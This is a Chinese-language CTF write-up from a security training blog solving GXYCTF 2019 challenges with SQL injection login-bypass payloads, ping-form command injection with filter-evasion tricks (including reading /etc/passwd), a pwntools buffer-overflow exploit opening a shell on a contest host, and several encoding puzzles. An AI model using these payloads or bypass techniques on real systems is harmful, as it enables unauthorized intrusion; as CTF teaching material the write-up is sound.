<!--yml
category: 未分类
date: 2022-04-26 14:30:43
-->

# GXYCTF部分详细题解_合天网安实验室的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_38154820/article/details/106330179](https://blog.csdn.net/qq_38154820/article/details/106330179)

### 0x00：GXYCTF部分详细题解

> 2019GXYCTF结束，这里我写下较详细的部分题解，希望可以帮到大家！

### 0x01：baby_sqli

> 进来后是一个  登录页面
> 
> 

首先 尝试下

```
admin
123 
```

登录，然后查看 源代码，发现一串很可疑的字符串



尝试了下，发现是base32编码

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5 
```

对其进行解码得到：

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw== 
```

然后base64 解码得到：

```
select * from user where username = '$name' 
```

应该是 提示我们 要从 username 入手

我们查看下  他有几个字段

```
admin' union select 1,2,3#
admin' union select 1,2,3,4# 
```

可以得到 是3个字段<br>
我们猜测字段名是

```
ip username password 
```

然后我们通过下面语句

```
admin' union select 1,'admin',3# 
```

//即把admin 放到第二个位置 不报错<br>
得到第二个字段就是我们的username字段<br>
然后 题目提示了"md5",于是我们便可以去猜测 它的后端是怎么写的:

```
<?php
$row;
$pass=$_POST['pw'];
if($row['username']=='admin'){
    if($row['password']==md5($pass)){
        echo $flag;
    }else{
        echo "wrong pass!";
    }
}else{
    echo "wrong user!";
} 
```

就是 我们的sql语句执行时，
passsword字段中的内容要==md5(我们密码栏输入的password)
然后我们便随便找个 密码 就123吧：

```
明文：123
md5 : 202cb962ac59075b964b07152d234b70 
```

于是我们便构造这样的payload：

```
username栏：' union select 1,'admin','202cb962ac59075b964b07152d234b70'#
password栏：123 
```

登录便可以得到

```
flag：GXY{y0u_4re_not_aDmin!} 
```



**0x02：ping ping ping**

我们进来后可以看到：



这题应该考查的是任意命令执行我们首先 ping 本地填入

```
127.0.0.1;ls 
```

点击确定 得到



然后，既然flag.php在同级目录下，直接 cat 拿到就好了<br>
如果它没有过滤的话我们应该这样填入

```
127.0.0.1;cat flag.php 
```

但经过我们的输入发现，这题它把 空格和 'flag' 给过滤了，所以，我们得想办法把 空格和 'flag' 给绕过

我们先来 绕过下空格，在这之前我们来了解下

**0x03：linux 常见空格绕过方法**
使用<或者<>来绕过空格

```
cat<flag.txt 
```

花括号 扩展{OS_COMMAND,ARGUMENT}

```
{cat,/etc/passwd} 
```

$IFS绕过

```
cat$IFSflag.txt 
```

变量控制

```
x=$'cat\x09./a.txt'&&$x 
```

经过 我们测试 这题我们可以通过 $IFS 绕过 空格

然后我们来 绕过  'flag'过滤

这里我们 选择构造变量然后使用变量去绕过：于是最后我们构造 payload为：

```
127.0.0.1;a=f;d=ag;c=l;cat$IFS$a$c$d.php 
```

然后BurpSuite抓包便成功拿到flag.php中得内容

```
flag：GXY(1_sh0uld_ban_Icmp_4tFirst) 
```



这次很难受，就做出来一道pwn!我还是写详细些吧！

**0x04：fantasy**
首先查看程序属性及保护：

```
$ file fantasy
fantasy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, 
for GNU/Linux 2.6.32, BuildID[sha1]=0964804519339e930431d2c6f850fd89c3e79f29, not stripped
---------------------------------------------------------------------------------
$ checksec fantasy
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) 
```

我们可以看出该程序是 动态链接的64位elf文件，另外仅开启NX保护！
然后我们将它拖入ida中（64位）：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome(*(_QWORD *)&argc, argv, envp);
  vul();
  puts("OK,see you again");
  return 0;
} 
```

我们进去vul()函数中：

```
int vul()
{
  char buf; // [rsp+0h] [rbp-30h]//这里我们可以看出buf距离rbp的地址是0x30， 即48

  puts("I got a message bank ,you can store something in it!");
  puts("input your message");
  read(0, &buf, 0x40uLL); //这里有个很明显得栈溢出漏洞
  return puts("OK , i got it ,let me see if i can bring you fantasy!!!");
} 
```

另外，我们可以在ida函数栏可以看到fantasy函数，发现是后门函数

```
int fantasy()
{
  return system("/bin/sh");
} 
```

于是我们先把它地址先记下来：0x400735



**0x05：解题思路：**
我们可通过栈溢出漏洞去覆盖掉ret_addr为 fantasy函数的地址即可拿到pwn掉程序！
于是构造payload：
payload='a'*48+p64(0xdeadbeef)+p64(0x400735)

```
原栈结构大概是这样（如下）：
0000| buf
0008|
0016|
0024| 
0032| 
0040| 
0048| 
0056| rbp
0064| ret_addr
————————————————————————————————————————————
我们构造后，栈结构就变成这样下面这样了，
执行到返回地址时，程序就会返回到我们构造的fantasy后门函数去继续执行！
——————————————————————————————————————————————
0000| a*48
0008|
0016|
0024| 
0032| 
0040| 
0048| 
0056| 0xdeadbeef
0064| fantasy_addr 
```

### 0x06：exp:

```
#coding:utf8
from pwn import *
conn=process('./fantasy')
conn=remote('183.129.189.60','10025')

payload='a'*0x30+p64(0xdeadbeef)+p64(0x400735)

conn.sendline(payload)

conn.interactive() 
```

python 跑下便可以拿到flag

```
python fantasy.py

GXY{Welcome_to_Binary_world} 
```



### 0x07：fu

看题目联想到了  与佛论禅！
下载得到的是一个压缩包，里面有一个图片和一个加密的fo.txt文本，如下图：



我首先想到的是用明文攻击 ，做这题，但却失败告终！
这题其实直接修复下 下载的压缩包，就可以的



然后就得到 修复后的 rebuilt.fu.zip



然后打开 fo.txt文本，果然不出我们所料，然后我们将  佛曰内容进行解密即可！



佛曰：遮等諳勝能礙皤藐哆娑梵迦侄羅哆迦梵者梵楞蘇涅侄室實真缽朋能。奢怛俱道怯都諳怖梵尼怯一罰心缽謹缽薩苦奢夢怯帝梵遠朋陀諳陀穆諳所呐知涅侄以薩怯想夷奢醯數羅怯諸

与佛论禅网址：http://www.keyfc.net/bbs/tools/tudoucode.aspx



```
flag：flag{w0_fo_ci_Be1} 
```

**0x08：base乱码**
这题 首先给了我们这么多行的base64编码的字符串

```
Q2V0dGUgbnVpdCwK
SW50ZW5hYmxlIGluc29tbmllLAp=
TGEgZm9saWUgbWUgZ3VldHRlLAo=
SmUgc3VpcyBjZSBxdWUgamUgZnVpcwp=
SmUgc3ViaXMsCt==
Q2V0dGUgY2Fjb3Bob25pZSwK
UXVpIG1lIHNjaWUgbGEgdOmUmnRlLAp=
QXNzb21tYW50ZSBoYXJtb25pZSwK
RWxsZSBtZSBkaXQsCo==
VHUgcGFpZXJhcyB0ZXMgZGVsaXRzLAp=
UXVvaSBxdSdpbCBhZHZpZW5uZSwK
T24gdHJh5Y2vbmUgc2VzIGNoYeWNr25lcywK
U2VzIHBlaW5lcywK
SmUgdm91ZSBtZXMgbnVpdHMsCm==
QSBsJ2Fzc2FzeW1waG9uaWUsCl==
QXV4IHJlcXVpZW1zLAr=
VHVhbnQgcGFyIGRlcGl0LAq=
Q2UgcXVlIGplIHNlbWUsCt==
SmUgdm91ZSBtZXMgbnVpdHMsCp==
QSBsJ2Fzc2FzeW1waG9uaWUsCp==
RXQgYXV4IGJsYXNwaGVtZXMsCo==
Sidhdm91ZSBqZSBtYXVkaXMsCl==
VG91cyBjZXV4IHF1aSBzJ2FpbWVudCwK
TCdlbm5lbWksCu==
VGFwaSBkYW5zIG1vbiBlc3ByaXQsCp==
RumUmnRlIG1lcyBkZWZhaXRlcywK
U2FucyByZXBpdCBtZSBkZWZpZSwK
SmUgcmVuaWUsCq==
TGEgZmF0YWxlIGhlcmVzaWUsCh==
UXVpIHJvbmdlIG1vbiDplJp0cmUsCo==
SmUgdmV1eCByZW5h5Y2vdHJlLAp=
UmVuYeWNr3RyZSwK
SmUgdm91ZSBtZXMgbnVpdHMsCn==
QSBsJ2Fzc2FzeW1waG9uaWUsCq==
QXV4IHJlcXVpZW1zLAp=
VHVhbnQgcGFyIGRlcGl0LAq=
Q2UgcXVlIGplIHNlbWUsCo==
SmUgdm91ZSBtZXMgbnVpdHMsCm==
QSBsJ2Fzc2FzeW1waG9uaWUsCl==
RXQgYXV4IGJsYXNwaGVtZXMsCm==
Sidhdm91ZSBqZSBtYXVkaXMsCu==
VG91cyBjZXV4IHF1aSBzJ2FpbWVudCwK
UGxldXJlbnQgbGVzIHZpb2xvbnMgZGUgbWEgdmllLAp=
TGEgdmlvbGVuY2UgZGUgbWVzIGVudmllcywK
U2lwaG9ubmVlIHN5bXBob25pZSwK
RGVjb25jZXJ0YW50IGNvbmNlcnRvLAq=
SmUgam91ZSBzYW5zIHRvdWNoZXIgbGUgRG8sCo==
TW9uIHRhbGVudCBzb25uZSBmYXV4LAp=
SmUgbm9pZSBtb24gZW5udWksCo==
RGFucyBsYSBtZWxvbWFuaWUsCl==
SmUgdHVlIG1lcyBwaG9iaWVzLAq=
RGFucyBsYSBkZXNoYXJtb25pZSwK
SmUgdm91ZSBtZXMgbnVpdHMsCv==
QSBsJ2Fzc2FzeW1waG9uaWUsCn==
QXV4IHJlcXVpZW1zLAp=
VHVhbnQgcGFyIGRlcGl0LAo=
Q2UgcXVlIGplIHNlbWUsCm==
SmUgdm91ZSBtZXMgbnVpdHMsCp==
QSBsJ2Fzc2FzeW1waG9uaWUsCm==
RXQgYXV4IGJsYXNwaGVtZXMsCu==
Sidhdm91ZSBqZSBtYXVkaXMsCm==
VG91cyBjZXV4IHF1aSBzJ2FpbWVudCwK
SmUgdm91ZSBtZXMgbnVpdHMsCn==
QSBsJ2Fzc2FzeW1waG9uaWUgKGwnYXNzYXN5bXBob25pZSksCn==
Sidhdm91ZSBqZSBtYXVkaXMsCt==
VG91cyBjZXV4IHF1aSBzJ2FpbWVudA== 
```

这题，我们 首先对它进行base64解密，得到的是莫扎特的一首音乐歌词，
有兴趣的朋友可以听听看！



我从中没有得出 有用的信息，于是想到base64隐写
我们将上面base64编码的多行字符串，命名为1.txt
我们写如下代码，将其隐写的内容给输出 出来：

```
#coding:utf8
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('1.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = ''.join(line.split())
        rowb64 = ''.join(stegb64.decode('base64').encode('base64').split())

        offset = abs(b64chars.index(stegb64.replace('=', '')[-1]) - b64chars.index(rowb64.replace('=', '')[-1]))
        equalnum = stegb64.count('=')  # no equalnum no offset

        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)

print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])  # 8位一组 
```

直接跑出来flag了

flag：GXY{fazhazhenhaoting}

想知道更多实验操作，小编推荐合天网安实验室；Base64编码原理与应用：http://www.hetianlab.com/expc.do?ec=ECIDca55-efe6-43f7-997d-08d916955fc9（通过学习本实验理解base64编码的加密解密原理和了解base64编码加密后的特征，并能够对base64编码后的字符串进行解密。）

**0x09：checkin**
签到题，我把它放到最后了，在解题之前，我们先来了解下Rot47密码
Rot47密码：对数字、字母、常用符号进行编码，按照它们的ASCII值进行位置替换，用当前字符ASCII值往前数的第47位对应字符替换当前字符，例如当前为小写字母z，编码后变成大写字母K，当前为数字0，编码后变成符号_。

用于ROT47编码的字符其ASCII值范围是33－126：

```
!"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~ 
```

Rot47加密代码：

```
# -*- coding: UTF-8 -*-
def rot47(s):
    x = []
    for i in xrange(len(s)):
        j = ord(s[i])
        if j >= 33 and j <= 126:
            x.append(chr(33 + ((j + 14) % 94)))
        else:
            x.append(s[i])
    return ''.join(x)
#例：Z——>K     0——>_
print rot47('z0')#  K_ 
```

我们对应写出Rot47解题脚本：

```
# -*- coding: UTF-8 -*-
#这个给个 demo：
s="96E:2?K9:9F:"
de_Rot47=''
for i in range(len(s)):
  j=ord(s[i])
  if j>=33 and j<= 126:
    de_Rot47+=chr(33+((j + 14)%94))
  else:
    de_Rot47+=a[i]
print(de_Rot47)#hetianzhihui 
```

首先，题目给了我们

```
dikqTCpfRjA8fUBIMD5GNDkwMjNARkUwI0BFTg== 
```

对其进行base64解密 得到

```
v)L_F0}@H0F49023@FE0#@EN 
```

观察发现是 Rot47 加密方式，所以我们 再对其进行 Rot47 解密
带入我们写入的Rot47 解密 Python脚本：

```
# -*- coding: UTF-8 -*-

s="v)*L*_F0<}@H0>F49023@FE0#@EN"
de_Rot47=''
for i in range(len(s)):
  j=ord(s[i])
  if j>=33 and j<= 126:
    de_Rot47+=chr(33+((j + 14)%94))
  else:
    de_Rot47+=a[i]
print(de_Rot47)#GXY{Y0u_kNow_much_about_Rot} 
```

运行得到 GXY{Y0u_kNow_much_about_Rot}


别忘了投稿哦

大家有好的技术原创文章

欢迎投稿至邮箱：edu@heetian.com

合天会根据文章的时效、新颖、文笔、实用等多方面评判给予200元-800元不等的稿费哦

有才能的你快来投稿吧！

了解投稿详情点击——[**重金悬赏 | 合天原创投稿涨稿费啦！**](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd59304b8a2eb95d8ce88b202c516f3a4366ac5b2da8047180012c46ba7f0e9aa555e3360971&idx=2&mid=2652851334&scene=21&sn=c3cddfe9e230204c6892b06159d419d1#wechat_redirect)


点击阅读原文做实验